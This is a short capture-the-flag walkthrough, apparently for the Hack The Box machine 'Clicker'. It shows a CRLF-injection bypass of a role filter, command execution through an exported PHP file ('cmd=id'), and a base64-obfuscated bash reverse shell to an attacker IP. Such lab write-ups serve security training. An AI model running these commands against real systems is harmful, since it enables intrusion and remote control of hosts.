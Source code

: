 This is how normal request and response looks like.

![Alt text](image-19.png)

If I try to modify the role directly the server will detect it and return 'Malicious activity detected!'

![Alt text](image-20.png)

Sucsessfully bypassed the filter.

[https://owasp.org/www-community/vulnerabilities/CRLF_Injection](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

[https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)

![Alt text](image-23.png)
The role has changed in the database only.
Now I need to log out and login to update my role because the session variable `ROLE` wont get updated unless I log in again.

After logging in, a new page called Administator appeared (admin.php).

![Alt text](image-22.png)

Now after I can access admin.php I can see the top users nicknames, clicks, and levels. Which are retrived from the database.

These values can be exported as .txt, .json or .html file.

![Alt text](image-21.png)

![Alt text](image-24.png)

![Alt text](image-28.png)

![Alt text](image-26.png)

![Alt text](image-25.png)

```url
http://clicker.htb/exports/top_players_4poexjad.php?cmd=id
```

![Alt text](image-27.png)

![Alt text](image-29.png)

![Alt text](image-30.png)

```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjY5LzQ0NDQgMD4mMQo= | base64 -d | bash
```
